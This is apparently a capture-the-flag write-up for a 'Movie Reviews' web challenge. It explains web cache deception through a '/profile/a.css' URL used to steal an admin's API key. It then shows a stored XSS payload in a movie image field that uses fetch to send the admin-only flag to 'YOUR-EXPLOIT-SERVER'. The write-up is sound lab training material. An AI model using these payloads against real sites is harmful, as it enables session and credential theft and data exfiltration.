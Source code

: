 # Movie Reviews

## Solution

### Recon

- Notice that all responses contain the `X-Cache-Status` HTTP header, which indicates that a **cache server** is probably in place.

- Only static file requests seem to be cached. Requests ending in `.css` or `.jpg` return responses with `HIT` or `MISS` in the `X-Cache-Status`, while any other requests return `BYPASS`.

- We should check for any [web cache deception vulnerabilitites](https://portswigger.net/web-security/web-cache-deception)

### Identify the vulnerability

- Identify a target endpoint that returns a dynamic response containing **sensitive information**. You should use the `/profile` endpoint.

- Identify a discrepancy in how the cache and backend server **parse** the URL path. There is a discrepancy in **how** they map URLs to resources.

- It seems that the backend server uses REST-style URL mapping and ignores any extra parameters. For example, `/profile/test` still returns the same response as `/profile`. 

-  Now, test if the cache server will cache the response if we add a static extension like `.css`. The cache server indeed caches the response for the request `/profile/test.css`.

- Since the response is cached, we can get the **exact same response** even if we remove the session cookie and make the same request.

### Exploit

- Craft a malicious URL like `/profile/a.css` and include it to a movie review. 

- An admin bot will visit any URLs contained in reviews.

- Wait a few seconds and then visit your own malicious URL. If you get `X-Cache-Status: MISS`, you didn't wait long enough. Try again with an other URL.

- You will be able to see the admin's cached profile page and steal their API key. Also, notice that there is API documentation available at `/api` and a functionality that returns the flag via an empty POST request to `/admin`.

- POST `/admin` with a regular user returns forbidden, so we probably need XSS on the page in order to get the flag.

- Study the API docs in `/api` and note that you can add a new movie with a POST request to `/api/movies`. Example request body:
```javascript
{
  "title": "New Movie",
  "image": "https://example.com/image.jpg",
  "trailer": "https://youtube.com/embed/xyz",
  "description": "A brand new movie."
}
```

- The image URL is inserted into the `src` attribute of the movie's `<img>` and it is not properly escaped. Therefore you can trigger XXS by adding a new movie with the following image URL:
```javascript
"image": "x\" onerror=\"alert(0)"
```

- Don't forget to use the stolen API key as an `x-api-key` HTTP header.

- Finally, add a movie with the following payload to force admin to send the flag to your exploit server:
```javascript
{
  "title": "New Movie",
  "image": "x\" onerror=\"fetch('http://CHALLENGE_ADDR/admin',{method:'POST'}).then(r=>r.json()).then(r=>fetch('http://YOUR-EXPLOIT-SERVER/?flag='+r.flag))",
  "trailer": "https://youtube.com/embed/xyz",
  "description": "A brand new movie."
}
```